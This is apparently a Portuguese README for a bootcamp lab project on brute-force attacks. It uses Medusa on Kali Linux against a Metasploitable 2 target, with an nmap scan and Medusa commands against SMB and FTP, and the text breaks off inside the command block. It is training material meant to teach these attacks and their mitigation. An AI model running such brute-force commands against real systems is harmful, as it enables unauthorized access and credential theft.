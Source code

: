# 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição
Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos
- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas
- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba** & **VSFTPD** - Serviços de rede

## ⚡ Comandos Principais
```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

